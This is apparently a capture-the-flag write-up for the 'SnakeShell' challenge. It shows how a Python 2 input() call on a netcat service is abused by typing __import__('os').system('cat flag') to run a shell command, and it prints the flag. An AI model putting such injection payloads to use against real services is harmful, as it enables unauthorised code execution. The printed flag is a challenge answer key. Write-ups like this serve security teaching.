 ```yaml
---
layout: writeup
ctf: WhiteHats CTF 2021
chal: SnakeShell
category: misc
flag: WH2021{Heh_wH0'5_tH3_0ne_wH0_G0T_pwned!}
points: 972
solves: 16
---
```


> We have employed the best snakes in the industry to perform automatic hacking for you. You simply need to enter the target IP address and number of tries and it will infiltrate the system for you.

> All will be done so easily, just like what you see in movies. Experience the power of this tool now!

As we aren't given any files and only a server, first thing to do is to fuzz the server with unexpected input. It expects an IP address and integer, but what if we gave a string?

```
ariana@ariana ~> nc chals.whitehacks.ctf.sg 10111

        Hacking Machine 1.0 Pro Max Super
        Makes hacking as easy as in movies.

Please enter the IP address of your enemy: asd
Enter the number of tries: asd
Traceback (most recent call last):
  File "./snake.py", line 9, in <module>
    num = int(input("Enter the number of tries: "))
  File "<string>", line 1, in <module>
NameError: name 'asd' is not defined
```

We immediately see the flaw is because it uses python2 `input`. This reminded me of [this writeup](https://ctftime.org/writeup/20660) that cheezed an entire crypto challenge in DefCon quals 2020, hence I tried it and got the flag!

```
ariana@ariana ~> nc chals.whitehacks.ctf.sg 10111

        Hacking Machine 1.0 Pro Max Super
        Makes hacking as easy as in movies.

Please enter the IP address of your enemy: asd
Enter the number of tries: __import__('os').system('cat flag')
WH2021{Heh_wH0'5_tH3_0ne_wH0_G0T_pwned!}
HACKING asd IN PROGRESS...
Exploit started, attacking asd
HACKING COMPLETED. YOU ARE IN!
```
